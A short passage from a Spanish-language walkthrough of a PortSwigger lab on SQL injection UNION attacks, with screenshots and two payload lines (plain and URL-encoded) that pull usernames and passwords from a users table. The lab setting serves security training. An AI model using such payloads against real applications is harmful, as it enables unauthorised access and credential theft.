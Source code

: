 <p align="center">
     <img src="/assets/images/portswigger/sql_injection_union_attack_retrieving_data_from_other_tables/4.png" width="1000">
</p><br>

Detectamos que hay 2 columnas.

Para esto, podemos crear la consulta SQL usando la palabra clave UNION de la siguiente manera.

```plaintext
‘ UNION SELECT username,password FROM users —
```

<p align="center">
     <img src="/assets/images/portswigger/sql_injection_union_attack_retrieving_data_from_other_tables/5.png" width="1000">
</p><br>

```plaintext
‘+UNION+SELECT+username,password+FROM+users- -
```

<p align="center">